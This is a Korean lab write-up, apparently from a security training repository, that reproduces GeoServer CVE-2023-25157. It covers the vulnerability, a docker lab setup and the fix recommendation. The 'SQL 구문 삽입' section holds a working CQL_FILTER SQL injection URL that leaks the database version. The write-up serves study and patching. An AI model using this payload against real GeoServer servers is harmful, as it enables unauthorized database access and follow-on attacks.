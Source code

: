 # geoserver/CVE-2023-25157
---
##### Contributor
- 최석규

#### 요약
- GeoServer는 자바로 만들어진 서버이며, 지리 정보를 편집 및 공유할 수 있는 서비스를 제공한다.
- 2.22.1과 2.21.4 이전 버전에서 SQL injection이 있다.
- OGC (Open Geospatial Consortium) 표준에 의해 정의된 필터 및 함수식에서 발견 되었다.
- URL 파라미터에 postgis를 포함하는 workspace의 이름과 타입을 삽입 시 데이터베이스 버전 정보가 노출되는 취약점이다.

참고 자료
- https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
- https://github.com/advisories/GHSA-7g5f-wrx8-5ccf


#### 환경구성
- ```docker-compose up -d```
- ```http://your-ip:8080/geoserver```로 geosever 확인
- workspace name : vulhub
- Data store name : pg
- Feature type name : example
- One of attribute from feature type: name
- 위와 같은 구성 확인


#### SQL 구문 삽입
- ```http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true```

#### 결과

![image](https://github.com/ANG-web/whitehat-school-vulhub/assets/70057651/d292375b-c2a2-4a89-92ae-261bf0ffa346)



#### 정리
- geoserver에서 postgis 데이터베이스를 사용하는 작업공간에 이름과 타입을 매개변수로 넘길 경우 데이터베이스의 버전 정보가 노출된다.
- 이 취약점은 데이터베이스 정보를 활용해 추가적인 2차 공격이 일어날 수 있기 때문에 빠른 패치가 필요하다.

